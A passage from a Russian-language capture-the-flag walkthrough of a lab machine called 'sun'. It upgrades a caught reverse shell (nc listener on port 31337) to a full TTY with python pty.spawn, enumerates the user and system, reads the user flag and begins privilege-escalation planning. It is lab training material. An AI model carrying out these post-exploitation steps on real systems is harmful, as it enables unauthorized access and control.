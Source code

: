 Есть контакт. Апгрейдим полученный шелл до удобного tty bash'а, чтобы можно было пользоваться автодобиванием по TAB'у, CTRL-C не убивал бы наш прогресс и т. д.:
```
python -c 'import pty; pty.spawn("/bin/bash")'
sun@sun:~$ ^Z
[1]  + 4084 suspended  nc -nlvvp 31337
root@kali:~# stty raw -echo; fg
[1]  + 4084 continued  nc -nlvvp 31337

sun@sun:~$ ls
Desktop    Downloads         Music         output.txt  Public     Templates
Documents  examples.desktop  node_modules  Pictures    server.js  Videos
```

Ну вот, совсем другое дело! Познакомимся с системой, куда вломились:
```text
sun@sun:~$ whoami
sun

sun@sun:~$ id
uid=1000(sun) gid=1000(sun) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)

sun@sun:~$ uname -a
Linux sun 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

## user.txt
Заберем флаг пользователя:
```text
sun@sun:~$ cat /home/sun/Documents/user.txt
9a093cd2????????????????????????
```

И обдумаем PrivEsc-план. Для начала посмотрим, что в домашнем каталоге:
```text
sun@sun:~$ ls -la
total 152
drwxr-xr-x 21 sun  sun  4096 Aug 24 19:20 .
drwxr-xr-x  3 root root 4096 Sep 19  2017 ..
-rw-------  1 sun  sun     1 Mar  4 15:24 .bash_history
-rw-r--r--  1 sun  sun   220 Sep 19  2017 .bash_logout
-rw-r--r--  1 sun  sun  3771 Sep 19  2017 .bashrc
drwx------ 13 sun  sun  4096 Nov  8  2017 .cache
drwx------ 16 sun  sun  4096 Sep 20  2017 .config
drwx------  3 root root 4096 Sep 21  2017 .dbus
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Desktop
-rw-r--r--  1 sun  sun    25 Sep 19  2017 .dmrc
drwxr-xr-x  2 sun  sun  4096 Mar  4 15:08 Documents
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Downloads
-rw-r--r--  1 sun  sun  8980 Sep 19  2017 examples.desktop
drwx------  2 sun  sun  4096 Sep 21  2017 .gconf
drwx------  3 sun  sun  4096 Aug 24 19:20 .gnupg
drwx------  2 root root 4096 Sep 21  2017 .gvfs
-rw-------  1 sun  sun  6732 Aug 24 19:20 .ICEauthority
drwx------  3 sun  sun  4096 Sep 19  2017 .local
drwx------  4 sun  sun  4096 Sep 19  2017 .mozilla
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Music
drwxrwxr-x  2 sun  sun  4096 Sep 19  2017 .nano
drwxr-xr-x 47 root root 4096 Sep 19  2017 node_modules
-rw-rw-r--  1 sun  sun    20 Sep 19  2017 .node_repl_history
drwxrwxr-x 57 sun  sun  4096 Sep 19  2017 .npm
-rw-r--r--  1 root root   21 Aug 24 19:40 output.txt
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Pictures
```